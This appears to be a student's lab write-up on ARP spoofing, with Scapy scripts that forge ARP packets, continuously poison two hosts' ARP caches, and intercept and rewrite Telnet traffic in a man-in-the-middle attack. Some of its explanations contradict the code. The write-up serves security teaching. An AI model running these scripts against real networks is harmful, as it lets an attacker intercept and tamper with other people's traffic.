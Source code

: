 # ARP Spoofing Attack
The Address Resolution Protocol (ARP) is a communication protocol used for discovering the link layer address, such as the MAC address, given an IP address. The ARP protocol is a very simple protocol, and it does not implement any security measure.

![diagram](https://user-images.githubusercontent.com/126002808/220416965-09b077df-d999-478f-bdf3-78c42b4dcb50.png)

## ARP Request
```
#!/usr/bin/env python3
from scapy.all import *

# Create Ethernet and ARP objects
ethernet = Ether(dst='02:42:0a:09:00:05', src='02:42:0a:09:00:69')
arp = ARP(op=1, pdst='10.9.0.5', hwsrc='02:42:0a:09:00:69', hwdst='02:42:0a:09:00:05', psrc='10.9.0.6')

# Echo message before sending packet
print("Nigel is sending an ARP request")

# Send the packet
sendp(ethernet/arp) 
```

This script is using Scapy, a Python-based packet manipulation tool, to send an ARP reply packet. <br/>
This script is using the Scapy library to create and send an Address Resolution Protocol (ARP) request packet.<br/> 

An ARP request packet is used to discover the hardware address (MAC address) of a device on the same network by broadcasting a request to all devices on the network. The script creates two objects: <br/>

1) an Ethernet object
2) ARP object

The Ethernet object is used to define the source and destination MAC addresses of the packet. <br/>
The ARP object is used to define the operation code, source and destination IP addresses, and source and destination MAC addresses of the packet. <br/>
<br/>
The script then uses the print statement to display a message to the console indicating that Nigel is sending an ARP request. Finally, the script sends the packet using the sendp() function from the Scapy library.
<br/>
The first line ```#!/usr/bin/env python3``` is known as the shebang line.<br/>
It tells the operating system to use the Python 3 interpreter to execute the script. <br/>
<br/>
The second line from ```scapy.all import *``` imports all of the classes and functions in the Scapy library. <br/>
This allows the script to use Scapy to create, manipulate and send network packets. <br/>
<br/>
It first creates Ethernet and ARP objects to define the packet's source and destination addresses, as well as the IP addresses involved. <br/>
It then prints the message ```"Nigel is sending an ARP request"``` before sending the packet using the ```sendp``` function.


![arp-req](https://user-images.githubusercontent.com/126002808/220420309-b15b1cf7-e7ce-4ac4-a7c1-ccddfae3b901.png)

## ARP Reply
```
#!/usr/bin/env python3  
from scapy.all import *  
# Create Ethernet and ARP objects  
ethernet = Ether(dst='02:42:0a:09:00:05', src='02:42:0a:09:00:69') 
# ARP reply uses op-2. Previously, ARP request used op=1 
arp = ARP(op=2, pdst='10.9.0.5', hwsrc='02:42:0a:09:00:69', hwdst='02:42:0a:09:00:05', psrc='10.9.0.6')  
# Print the message that Nigel is sending an ARP reply
print("Nigel is sending an ARP reply")
# Send the packet 
sendp(ethernet/arp)  
```

Similar to the first script, we create an Ethernet frame with a specified source and destination MAC address. <br/>
The next line creates an ARP packet, with a specified source and destination MAC and IP addresses <br/>
This specifies that it is an ARP reply packet by setting the ```'op'``` field to ```2.``` <br/>
<br/>
The line ```print("Nigel is sending an ARP reply")``` prints a message to the console stating that Nigel is sending an ARP reply packet. <br/>
<br/>
Finally, the ```sendp(ethernet/arp)``` function sends the Ethernet frame and ARP packet as a single packet over the network using Scapy's ```sendp()``` function.

![arp-rep](https://user-images.githubusercontent.com/126002808/220423164-cff058a6-8371-4466-8461-b672a09df364.png)


## Gratuitous ARP
```
#!/usr/bin/env python3
from scapy.all import *

# Create Ethernet and ARP objects
ethernet = Ether(dst='02:42:0a:09:00:05', src='02:42:0a:09:00:69')
arp = ARP(op=2, pdst='10.9.0.5', hwsrc='02:42:0a:09:00:69', hwdst='ff:ff:ff:ff:ff:ff', psrc='10.9.0.5')

# Print the message that Nigel is sending a Gratuitous ARP message
print("Nigel is sending a Gratuitous ARP message")

# Send the packet
sendp(ethernet/arp)
```

![grat-arp](https://user-images.githubusercontent.com/126002808/220428701-fd8a00ac-fefd-46bf-a947-6e7438630782.png)


# MITM Attack on Telnet using ARP Cache Poisoning

The below script is conducting an ARP cache poisoning attack on both Host A and Host B. It sends out ARP reply packets spoofing Host M's MAC address as the MAC address for both Host A and Host B. This will cause Host A to associate Host M's MAC address with Host B's IP address and cause Host B to associate Host M's MAC address with Host A's IP address. As a result, all the packets sent between Host A and Host B will be intercepted by Host M. The while True loop sends the spoofed ARP packets every 5 seconds to ensure that the ARP cache of both Host A and Host B continues to be poisoned.

```
#!/usr/bin/env python3 
from scapy.all import * 
# Set the target IP addresses  
target_a_ip = '10.9.0.5' 
target_b_ip = '10.9.0.6' 
# Set the MAC addresses for Hosts A, B, and M 
host_a_mac = '02:42:0a:09:00:05' 
host_b_mac = '02:42:0a:09:00:06' 
host_m_mac = '02:42:0a:09:00:69' 
# Create the ARP reply packets 
arp_a = ARP(op=2, hwsrc=host_m_mac, psrc=target_b_ip, hwdst=host_a_mac, pdst=target_a_ip)  
arp_b = ARP(op=2, hwsrc=host_m_mac, psrc=target_a_ip, hwdst=host_b_mac, pdst=target_b_ip) 
# Send the packets continuously every 5 seconds 
while True: 
       send(arp_a) 
       send(arp_b) 
       time.sleep(5) 
```

### With IP Forwarding Enabled

![ip-forward-off](https://user-images.githubusercontent.com/126002808/220438539-3e69a4e5-ea23-459f-a3a4-0dd51d6bd9e6.png)

### With IP Forwarding Disabled

![ip-forward-on](https://user-images.githubusercontent.com/126002808/220438591-160fc830-0bc4-4800-ab72-6b2cd609f1e7.png)

## Launching an  MitM Attack on Telnet

The below code performs a Man-in-the-Middle (MitM) attack on Telnet traffic between two hosts, Host A and Host B. <br/>
I do this by modifying the Telnet data in packets transmitted between them. <br/>
<br/>
The Python code again uses the Scapy library to capture and modify packets and the regular expression (re) module to manipulate the Telnet data.The script defines the IP and MAC addresses for hosts A, B, and M, sets up a packet capture filter to capture Telnet traffic from host A to host B, and defines a function that modifies the Telnet data in captured packets. <br/>
<br/>
When a packet that matches the filter is captured, the function is called to modify the Telnet data and send the modified packet to host B. <br/>
Additionally, the code prints "Nigel is launching an MitM Attack on Telnet" to the console each time a packet is captured and modified.

```
#!/usr/bin/env python3
from scapy.all import *
import re

print("Nigel is launching an MitM Attack on Telnet")

# Set the target IP addresses
target_a_ip = '10.9.0.5'
target_b_ip = '10.9.0.6'

# Set the MAC addresses for Hosts A, B, and M
host_a_mac = '02:42:0a:09:00:05'
host_b_mac = '02:42:0a:09:00:06'
host_m_mac = '02:42:0a:09:00:69'

# Define the Telnet data modification function
def modify_telnet_data(pkt):
    if IP in pkt and TCP in pkt and pkt[IP].src == target_a_ip and pkt[IP].dst == target_b_ip:
        # Extract the Telnet data from the TCP packet
        telnet_data = pkt[TCP].payload.load.decode(errors='ignore')

        # Replace each character in the Telnet data with the fixed character (Z in this case)
        # The standard library ‘re’ module provides regular expression matching operations
        telnet_data = re.sub('.', 'Z', telnet_data)

        # Recalculate the TCP checksum and update the packet
        del pkt[IP].chksum
        del pkt[TCP].chksum
        pkt[TCP].payload = telnet_data.encode()
        pkt[TCP].len = len(pkt[TCP].payload)

        # Send the modified packet to Host B
        sendp(pkt, iface='eth0')

# Set up a packet capture filter to capture only Telnet traffic from Host A to Host B
filter_str = 'tcp and src host {} and dst host {} and dst port 23'.format(target_a_ip, target_b_ip)

# Start the packet capture and modification loop
sniff(prn=modify_telnet_data, filter=filter_str, store=0)
```

Thank you to my followers.
